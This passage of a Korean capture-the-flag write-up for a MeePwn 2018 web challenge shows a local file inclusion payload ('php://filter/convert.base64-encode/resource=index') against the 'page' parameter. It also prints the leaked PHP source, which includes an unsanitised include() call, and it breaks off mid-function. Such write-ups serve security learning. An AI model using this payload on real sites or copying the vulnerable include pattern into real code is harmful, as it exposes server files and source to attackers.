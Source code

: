 각각 버튼을 누를 경우 이동하는 URL은 다음과 같다.  

> Homepage를 누를 경우 : http://206.189.92.209/ezchallz/index.php  
> Free register를 누를 경우 : http://206.189.92.209/ezchallz/index.php?page=register  
> 값 입력 후 Register 버튼을 누를 경우 : http://206.189.92.209/ezchallz/users/b8240bb93fb5c4321196ff675b7f98eb/flag.php  

쿼리 스트링에서 `page`를 인자로 받아 페이지를 이동한다는 것을 알 수 있었다.  

그런데 이 경우 `LFI` 공격에 취약할 수 있다.  

`page`의 값에 다음과 같이 입력한다면, 해당 파일의 내용을 읽을 수 있다.  

```
?page=php://filter/convert.base64-encode/resource=index
```

그 결과 아래와 같이 `base64`로 인코딩 된 소스코드를 얻을 수 있었다.  

![]({{ site.baseurl }}/images/CTF/MeePwn2018/solved/meepwn_10.png)

`index`와 `register` 페이지의 소스코드를 얻어 `base64`로 디코딩 하면 아래와 같다.  

* index.php

```php
<html>
<a href="index.php">Homepage</a>
<a href="?page=register">Free register</a></li>

<?php
if(isset($_GET["page"]) && !empty($_GET["page"])) {
    $page = $_GET["page"];
    if(strpos(strtolower($page), 'secret') !== false) {
        die('No no no!');
    }
//    else if(strpos($page, 'php') !== false) {
 //       die("N0 n0 n0!");
//    }
    else {
        include($page . '.php');
    }
}
?>
</html>
```

* register.php

```php
<html>
<?php
error_reporting(0);

function gendirandshowflag($username) {
	include('secret.php');
	$dname = "";
	$intro = "";
	$_username = md5($username, $raw_output = TRUE);
	for($i = 0; $i<strlen($salt); $i++) {
		$dname.= chr(ord($salt[$i]) ^ ord($_username[$i]));
	};
	$dname = "users/" . bin2hex($dname);
	echo 'You have successfully register as ' . $username . '!\n';
	if ($_username === hex2bin('21232f297a57a5a743894a0e4a801fc3')) {
		$intro = "Here is your flag:" . $flag;
	}
	else {
```